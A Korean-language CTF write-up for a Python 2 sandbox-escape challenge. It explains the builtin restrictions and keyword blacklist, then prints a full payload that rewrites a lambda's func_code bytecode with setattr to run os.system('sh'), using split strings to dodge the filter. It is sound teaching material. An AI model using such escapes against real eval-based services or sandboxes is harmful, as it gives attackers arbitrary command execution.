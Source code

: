 # yet_Another_PySandbox
### #sandbox #python
---

소스코드는 [yet.py](./files/yet.py) 에 있다.

개인적으로 write-up 을 보고, 이 문제가 후속으로 나올 [yet^2_Another_PySandbox](../yet^2_Another_PySandbox/README.md) 문제보다 어렵게 느껴졌다.

[yet.py](./files/yet.py) 소스를 보면 아래와 같이 **__builtins__** 로 부터([yet^2_Another_PySandbox](../yet^2_Another_PySandbox/README.md) 에 설명 참조) 해당 리스트 목록에 없는 빌트인은 다 삭제해버리고 소스를 시작한다.

```python
# yet.py starting point
for k in keys:
    if k not in ['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']:
        del __builtins__.__dict__[k]
```

따로 import 해주지 않는 이상 기본적으로 사용할 수 있는 것은 이것들이다.

```python
['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']
```

소스에서 맨 처음 실행되는 부분이다.

![evaluator](../../.images/yet2.png)

*[evaluator 함수, 클라이언트로부터 문자열을 받아서 **eval** 을 실행시킨다]*

![check_eval_str](../../.images/yet3.png)

*[check_eval_str 함수, 클라이언트가 입력한 문자열을 검사한다]*

```python
['eval', 'exec', '__', 'module', 'class', 'globals', 'os', 'import']
```

위의 항목의 문자열이 안들어가게끔 조심하거나 우회해야한다.

결론적으로 문제를 풀 때, 신경써야할 것은 아래와 같다.


> - 정해진 __builtins__ 요소들만 사용
>
> - [ 'eval' , 'exec' , '__' , 'module' , 'class' , 'globals' , 'os' , 'import' ] 요소들만 사용해야함.

결론부터 말하자면 write up 에서는 제거되지않은 빌트인 중에 **setattr** 함수를 사용해야한다고 한다.

일단 **setattr** 함수에 대해 낯설었기에 우선 알아보기로 하였다.

--- 
## **<[setattr 함수사용법](https://technote.kr/248)>**

![setattr1](../../.images/yet4.png)

위 처럼 테스트용 클래스를 만들어보자.

![setattr2](../../.images/yet5.png)

**test** 변수에 **sample** 인스턴스를 만들고 n 값을 **setattr** 로 수정할 수 있었다.

![setattr3](../../.images/yet6.png)

혹은 위처럼 새로운 요소(attribute) 를 추가할 수도 있다.

대강 이런 식(?) 으로 쓴다는 것을 알 수 있었다.

---

사용 된 페이로드는 아래와 같다.

```python
[setattr(f,'func_code',type(f.func_code)(0,0,2,67,'d\x06\x00j\x00\x00j\x01\x00d\x01\x00\x19j\x02\x00\x83\x00\x00d\x02\x00\x19j\x03\x00j\x04\x00d\x03\x00\x19j\x05\x00d\x04\x00\x19j\x06\x00j\x07\x00d\x05\x00\x83\x01\x00\x01d\x00\x00'+'s'.upper(),([].append(1),0,59,'sys','o'+'s.path','sh',()),('_'+'_cl'+'ass_'+'_','_'+'_bas'+'es_'+'_','_'+'_subcl'+'asses_'+'_','_'+'_init_'+'_','func_glob'+'als','mod'+'ules','o'+'s','sy'+'stem'),(),'','',0,''))+f()for f in[lambda:1]]
```

**eval** 함수 안에 우겨넣을 우선 한 줄 코드를 만들기 위해 list 형을 사용하였다.

**setattr** 에 사용되는 함수 f 는 `lambda:1` 이라는 익명함수를 아무거나 만들어서 넣었고, 쭉 사용된다.

그리고 **setattr** 로 함수 f 의 **func_code** 라는 attribute 를 수정하는데, 해당 attribute 가 **어떤 attribute** 이며, **어떤 값으로 바꾸었는지** 알아보자.

## **1. [func_code](https://python-reference.readthedocs.io/en/latest/docs/function/code.html#func-code)** 는 무엇인가?


링크를 보면 알 수 있겠지만, 함수 내부에 갖고있는 code 형식의 오브젝트로 바이트코드로 컴파일 된 함수의 모습을 나타낸다.

즉, 이 함수가 어떤 행동을 하는가? 에 대한 바이트코드를 보여준다는 것이다.


![bytecode](../../.images/yet7.png)

*[ lambda:1 함수의 바이트코드 ]*

정수 1 을 LOAD 해서 RETURN 하는 바이트코드로 나타내어진다.

![bytecode2](../../.images/yet8.png)

그리고 위 처럼 바이트코드를 인터프리팅 할 수도 있다.

일단은 **func_code** 는 요런 역할을 수행하고, writable 하기에 페이로드와 같이 쓸 수 있다. 그러면, 임의의 바이트코드를 넣어서 원하는 로직으로 overwrite 도 가능할 것(?) 이다.


  ## **2. func_code 를 어떤 값으로 바꾸는 것인가?**

```python
type(f.func_code)(0,0,2,67,'d\x06\x00j\x00\x00j\x01\x00d\x01\x00\x19j\x02\x00\x83\x00\x00d\x02\x00\x19j\x03\x00j\x04\x00d\x03\x00\x19j\x05\x00d\x04\x00\x19j\x06\x00j\x07\x00d\x05\x00\x83\x01\x00\x01d\x00\x00'+'s'.upper(),([].append(1),0,59,'sys','o'+'s.path','sh',()),('_'+'_cl'+'ass_'+'_','_'+'_bas'+'es_'+'_','_'+'_subcl'+'asses_'+'_','_'+'_init_'+'_','func_glob'+'als','mod'+'ules','o'+'s','sy'+'stem'),(),'','',0,''))+f()for f in[lambda:1]
```

페이로드에서 이 부분을 볼 차례이다.

`lambda:1` 을 f 로 잡고 시작한다. `type(f.func_code)` 를 함수(?) 처럼 인자를 넣는 꼴인데, **func_code** 의 본래 타입은 code 클래스 타입이었기에 이 또한 code 클래스 타입이어야 할 것이다. 한 번 확인해보자.

![type_code](../../.images/yet9.png)

*[ lambda:1 func_code 의 타입 ]*

`<type 'code'>` 타입이 확인 되었다. 그러면 위의 해당 코드는 **code** 클래스의 객체를 생성하는 구문이 될 것이다.


```python
# code 객체의 생성자 이용 모습
code(argcount, nlocals, stacksize, flags, codestring, constants, names,
      varnames, filename, name, firstlineno, lnotab[, freevars[, cellvars]])
```

[Python2.7_Code_Object](https://docs.python.org/2/c-api/code.html#c.PyCode_New) : code 객체에 대한 docs

[각 생성자에 대한 변수 설명](https://python.flowdas.com/library/inspect.html)

code 오브젝트 생성자의 각 변수들은 아래 함수의 **func_code** 를 python 의 **[inspect](https://python.flowdas.com/library/inspect.html)** 모듈로 변수 확인하여 그대로 대입만 하면된다.

```python
# __builtins__ 제한 없이 쉘을 실행시킬 수 있는 코드
def f():
    ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals["sys"].modules["os.path"].os.system("sh")
```

![func_codes](../../.images/yet10.png)

*[ inspect.getmembers 로 leak 한 요소들 ]*

결론적으로 이 문제는 함수의 **func_code** 요소를 알고 있는 상태에서 **setattr** 로 해당 요소를 수정만 잘 해주면 되는 문제가 되겠다.

끝..




.

.

.

**Contact :** a42873410@gmail.com

